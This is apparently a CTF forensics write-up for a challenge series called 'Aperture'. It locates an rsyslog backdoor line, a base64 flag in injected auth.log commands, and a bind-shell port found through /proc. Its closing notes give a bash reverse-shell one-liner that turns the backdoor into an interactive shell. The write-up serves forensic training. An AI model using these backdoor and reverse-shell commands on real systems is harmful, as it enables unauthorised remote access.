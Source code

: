 ```yaml
---
layout: post
title:  "5Charlie CTF - Aperture"
date:   2020-04-25 01:31:48 -0500
categories: [ctf, write-up, forensics, linux]
---
```


## Aperture 1

## Aperture 1 - Challenge

To access these challenges, ssh to wheatley@analysis.5charlie.com

What is the full path to the configuration file that has been backdoored to allow command execution through OpenSSH?

**Attachments:** `id_wheatly` - SSH Key

### Aperture 1 - Solution

Getting our bearings on the system we very quickly find that this system is a very minimal isolated Docker container.
Let's try to figure out what may have been played with by figuring out the most recently modified files

We'll specifically be using the `-t (sort by modifcation time)` flag and `-r (reverse sorting)` flag on our `ls` so that it gives us the most likely files closest to our prompt at the bottom.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
total 80
drwxr-xr-x   2 root root 4096 Apr 24  2018 home
drwxr-xr-x   2 root root 4096 Apr 24  2018 boot
drwxr-xr-x   1 root root 4096 Mar 11 21:03 usr
drwxr-xr-x   2 root root 4096 Mar 11 21:03 srv
drwxr-xr-x   2 root root 4096 Mar 11 21:03 opt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 mnt
drwxr-xr-x   2 root root 4096 Mar 11 21:03 media
drwxr-xr-x   2 root root 4096 Mar 11 21:03 lib64
drwxr-xr-x   1 root root 4096 Mar 11 21:05 var
drwx------   2 root root 4096 Mar 11 21:05 root
dr-xr-xr-x  13 root root    0 Apr 10 19:45 sys
drwxr-xr-x   1 root root 4096 Apr 13 04:57 lib
drwxr-xr-x   1 root root 4096 Apr 13 04:57 sbin
drwxr-xr-x   1 root root 4096 Apr 13 04:58 bin
-rwxr-xr-x   1 root root    0 Apr 25 06:36 .dockerenv
drwxr-xr-x   1 root root 4096 Apr 25 06:36 ..
drwxr-xr-x   1 root root 4096 Apr 25 06:36 .
dr-xr-xr-x 142 root root    0 Apr 25 06:36 proc
drwxr-xr-x   1 root root 4096 Apr 25 06:36 run
drwxr-xr-x   5 root root  400 Apr 25 06:36 dev
drwxr-xr-x   1 root root 4096 Apr 25 06:36 etc
drwxrwxrwt   1 root root 4096 Apr 25 06:36 tmp
wheatley@e2a54f310336:/$
```

There's nothing of interest in `/tmp` so next we dig into `/etc` which has plenty of configuration files that could be tweaked to cause security problems.

Let's continue down.

{% highlight bash %}
cd /
ls -latr
{% endhighlight %}

``` text
...[truncated]
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc4.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc3.d
drwxr-xr-x 1 root root    4096 Apr 13 04:57 rc2.d
-rw-r--r-- 1 root root    1252 Apr 13 04:57 passwd-
-rw-r--r-- 1 root root   13548 Apr 13 04:57 ld.so.cache
-rw-r--r-- 1 root root      22 Apr 13 04:58 subuid
-rw-r--r-- 1 root root      22 Apr 13 04:58 subgid
-rw-r----- 1 root shadow   691 Apr 13 04:58 shadow
-rw-r--r-- 1 root root    1297 Apr 13 04:58 passwd
-rw-r----- 1 root shadow   499 Apr 13 04:58 gshadow
-rw-r--r-- 1 root root     596 Apr 13 04:58 group
-rw-r--r-- 1 root root      36 Apr 13 04:58 ld.so.preload
drwxr-xr-x 1 root root    4096 Apr 13 04:58 ssh
drwxr-xr-x 1 root root    4096 Apr 13 04:58 rsyslog.d
lrwxrwxrwx 1 root root      12 Apr 25 06:36 mtab -> /proc/mounts
drwxr-xr-x 1 root root    4096 Apr 25 06:36 ..
-rw-r--r-- 1 root root     174 Apr 25 06:36 hosts
-rw-r--r-- 1 root root      13 Apr 25 06:36 hostname
-rw-r--r-- 1 root root      97 Apr 25 06:36 resolv.conf
-rw-r--r-- 1 root root    1358 Apr 25 06:36 rsyslog.conf
-r--r----- 1 root root     755 Apr 25 06:36 sudoers
drwxr-xr-x 1 root root    4096 Apr 25 06:36 .
wheatley@e2a54f310336:/etc$
```

Attempting to check our sudo privileges with `sudo -l` gives us a password prompt: no dice.

`hosts`, `hostname`, `resolv.conf`, and `mtab` were modified by Docker coming up. We can look, but it's nothing relevant.

`rsyslog.conf` and `rsyslog.d` were recently modified; that's a bit strange. Looking up rsyslog backdoors gives us Jacob Lell's post as the first result: <https://www.jakoblell.com/blog/2014/05/07/hacking-contest-backdooring-rsyslogd/>

In our own `/etc/rsyslog.d/rsyslog-README.conf` we can immediately see `auth.* ^/bin/atg` on line 77: an exact match to the blog post.

**Flag:** `/etc/rsyslog.d/rsyslog-README.conf`

## Aperture 2

### Aperture 2 - Challenge

What is the flag sent to the backdoored service?

### Aperture 2 - Solution

The backdoor commands are logged in `/var/log/auth.log` because it operates on the same port as SSH.

We can see that (if you tested connecting yourself) `auth.log` logs the attempts as `Bad protocol version identification <cmd>`.

To find the flag sent to the service historically, we can grep for that.

{% highlight bash %}
cat /var/log/auth.log | grep 'Bad proto'
{% endhighlight %}

``` text
Apr 13 04:33:58 5985561554b6 sshd[632]: Bad protocol version identification '';echo ZmxhZ3thbHdheXNfY2hlY2tfeW91cl9sb2dzfQo=;'' from 172.19.0.2 port 46120
Apr 13 04:34:37 5985561554b6 sshd[878]: Bad protocol version identification '';touch /tmp/owned;'' from 172.19.0.2 port 46122
wheatley@e2a54f310336:/etc$
```

We see a base64 encoded string, which, when decoded, gives us our flag.

**Flag:** `flag{always_check_your_logs}`

## Aperture 3

### Aperture 3 - Challenge

What port on this host is hosting a malicious bind shell?

### Aperture 3 - Solution

Since this host doesn't have anything like `netstat` or `ss`, we'll need to examine the `/proc` directory to determine open ports.

Nothing of interest in `/proc/net/tcp` or `/proc/net/udp`.

But if we look at `/proc/net/tcp6` we notice can see that there is a port bound to the wildcard (`::` aka the repeating zeros on index 1) with a port of hexidecimal `19B7`.

``` text
wheatley@09f81ab696ac:/tmp$ cat /proc/net/tcp6
  sl  local_address                         remote_address                        st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
   0: 00000000000000000000000000000000:0016 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 2142157 1 ffff888153b1cc80 100 0 0 10 0
   1: 00000000000000000000000000000000:19B7 00000000000000000000000000000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 2142057 1 ffff888153b1ee80 100 0 0 10 0
```

Converting that port to decimal, we have our flag.

``` text
➜  ~ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x19B7
6583
```

**Flag:** `6583`

## Additional Notes

I have a bad habit of losing focus in CTFs a bit and playing around with the environment. Here is a line to leverage the provided backdoor as a shell instead of single-command.

{% highlight bash %}
nc -nvlp 1234 &
echo "';bash -i >& /dev/tcp/127.0.0.1/1234 0>&1;'"|nc 127.0.0.1
fg
{% endhighlight %}
